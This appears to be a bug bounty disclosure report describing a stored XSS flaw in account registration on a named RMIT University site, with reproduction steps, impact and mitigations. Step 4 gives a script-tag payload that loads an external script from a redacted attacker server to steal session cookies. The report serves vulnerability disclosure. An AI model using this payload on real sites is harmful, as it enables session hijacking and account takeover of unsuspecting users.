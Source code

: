 # ⛑️ Account Take Over (via XSS)  👩🏻‍🎓RMIT University

### Summary

A Cross-Site Scripting (XSS) vulnerability has been identified in the account creation process on [https://inbound.rmit.edu.au/](https://inbound.rmit.edu.au/). This vulnerability allows an attacker to inject malicious scripts that can steal session cookies, enabling account takeover. The injected XSS payload is stored and later executed, making it possible to hijack the affected user's session.

***

### Reproduction Steps

1.  **Access the Site**

    Visit: [https://inbound.rmit.edu.au/](https://inbound.rmit.edu.au/).
2.  **Navigate to the Login Panel**

    Click on the login/sign-up section of the website.
3.  **Create an Account**

    Use the following credentials for registration:

    * **Email:** `example@bugcrowdninja.com`
    * **Password:** `TestPassword`
4.  **Inject the XSS Payload**

    In one of the registration fields (for example, in a personal information field), insert the following XSS payload:

    ```html
    <script src=//[ REDACTED ]></script>
    ```

    This payload loads an external script from a server under the attacker's control ( \[ REDACTED ] ), which is designed to capture session cookies.
5.  **Complete the Registration**

    Fill in the remaining required information (e.g., entering "Guatemala" in the appropriate field).
6.  **Verify the Injection**

    Inspect the source code of the page displaying the user information to confirm that the XSS payload has been injected without proper sanitization.
7.  **Capture the Cookies**

    Access the attacker's control panel at \[ REDACTED ] to verify that the session cookies have been received, proving that account takeover is possible.

***

### Impact

*   **Cookie Theft and Session Hijacking:**

    By capturing session cookies, an attacker can impersonate a legitimate user, gaining unauthorized access to the compromised account.
*   **Unauthorized Access to Sensitive Data:**

    Exploiting this vulnerability can lead to exposure of personal information and possibly allow the attacker to perform actions on behalf of the user.
*   **Potential Privilege Escalation:**

    If the compromised account has elevated privileges, the attacker might leverage this vulnerability to gain access to additional internal resources or systems.
*   **Lateral Movement:**

    Session hijacking may allow the attacker to move laterally within the network or application, compromising further resources.

***

### Examples of Real Exploitation

*   **External Script Injection for Cookie Capture:**

    The payload `<script src=//[REDACTED]></script>` loads a remote script that registers and sends session cookies to the attacker's server. This is a common technique in persistent XSS attacks.
*   **Account Takeover:**

    Once the session cookies are captured, an attacker can use them in their browser to assume the identity of the victim, effectively taking control of the account.

***

### Mitigation Recommendations

1. **Input Validation and Sanitization:**
   * Implement strict validation for all input fields.
   * Use whitelisting techniques and properly escape any content that is rendered on the client side.
2. **Output Encoding:**
   * Ensure that all data displayed in the user interface is properly encoded to prevent the execution of malicious scripts.
3. **Content Security Policy (CSP):**
   * Configure a CSP that restricts the loading of external scripts and defines trusted sources.
4. **HttpOnly Cookies:**
   * Set session cookies with the `HttpOnly` attribute to prevent them from being accessed via JavaScript.
5. **Code Reviews and Security Audits:**
   * Perform regular code reviews and security audits to identify and remediate any injection points.

***

### Additional Report Link

For further details and evidence extracted from any user who might view my profile, please refer to the following link:

\[ REDACTED ]

***

### Conclusion

The XSS vulnerability in the account creation process on [https://inbound.rmit.edu.au/](https://inbound.rmit.edu.au/) poses a serious security risk by enabling an attacker to steal session cookies and take over user accounts. It is crucial to implement the recommended mitigation strategies to safeguard user sessions and prevent unauthorized access.

<figure><img src="../.gitbook/assets/Screenshot 2025-04-03 at 06.05.26.png" alt=""><figcaption><p>Self 😭</p></figcaption></figure>
